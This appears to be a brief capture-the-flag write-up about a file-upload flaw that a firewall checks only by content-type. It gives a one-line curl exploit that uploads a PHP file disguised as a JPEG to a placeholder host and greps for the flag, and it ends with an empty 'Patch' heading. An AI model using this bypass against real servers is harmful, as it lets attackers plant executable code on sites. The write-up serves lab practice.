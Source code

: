 # Tools

# Exploit

In this one, we try to exploit a breach in the upload. We notice that the web application firewall seems to check only the content-type.

```bash
echo '<?php echo "I am bad" ?>' > /tmp/bad.php && curl -X POST -F "Upload=Upload" -F "uploaded=@/tmp/bad.php;type=image/jpeg" "http://x.x.x.x/index.php?page=upload" | grep 'The flag is :'
```

# Patch